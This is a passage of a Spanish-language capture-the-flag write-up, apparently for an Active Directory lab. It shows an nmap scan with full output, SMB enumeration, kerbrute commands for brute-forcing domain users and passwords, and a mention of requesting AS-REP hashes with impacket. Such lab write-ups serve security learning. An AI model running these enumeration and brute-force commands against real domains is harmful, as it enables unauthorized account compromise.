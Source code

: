 ### nmap
```python
sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -n -Pn 10.10.124.3
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-17 17:22 EST
Nmap scan report for 10.10.124.3
Host is up (0.19s latency).
Not shown: 65452 closed tcp ports (reset), 57 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-02-17 22:21:59Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-02-17T22:23:06+00:00; -40s from scanner time.
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Not valid before: 2024-02-16T22:18:45
|_Not valid after:  2024-08-17T22:18:45
| rdp-ntlm-info: 
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2024-02-17T22:22:58+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49684/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -40s, deviation: 0s, median: -40s
| smb2-time: 
|   date: 2024-02-17T22:22:57
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 100.22 seconds
```

### Ports: 53-80-88-135-139-389-445-464-593-636-3268-3269-3389-5985-9389-47001-49664-49665-49669-49673-9675-49676-49679-49684-49685
###### El puerto 88 nos indica que esta corriendo el protocolo kerberos
###### el puerto 389 nos indica que tenemos una redireccion hacia un domino llamado "spookysec.local"

### Enumeracion del puerto 80
no tenemos mucha informacion del puerto 80
![[Pasted image 20240217183752.png]]
###### vamos a agregar el dominio "spookysec.local"al /etc/hosts

### crackmapexec
esta herramienta nos permite enumerar el puerto smb para obtener un poco de información 
![[Pasted image 20240217184401.png]]

### enum4linux 
otra herramienta para enumerar. en este caso no encontramos nada.
![[Pasted image 20240217185818.png]]

### Kerbrute
vamos a utilizar esta herramienta llamada kerbrute. haremos un git clone del repositorio de github 
![[Pasted image 20240217190205.png]]

###### una ves clonado el repositorio vamos al directorio para instalar los requierements
![[Pasted image 20240217190539.png]]
###### esta herramienta necesita un diccionario de usuarios y uno de contraseñas para poder funcionar
```python
	python3 kerbrute.py -users userlist.txt -passwords passwordlist.txt -domain spookysec.local -t 100
	
	./kerbrute_linux_amd64 userenum --dc 10.10.124.3 -d spookysec.local userlist.txt
```

![[Pasted image 20240217195612.png]]
###### en este caso el usuario que mas llama la atencion es el svc-admin@spookysec.local

###### impacket-GetNPUsers 
de esta manera solicitamos un ticket al domain-controler el cual nos regresa una contraseña en forma de hash 
![[Pasted image 20240217201604.png]]

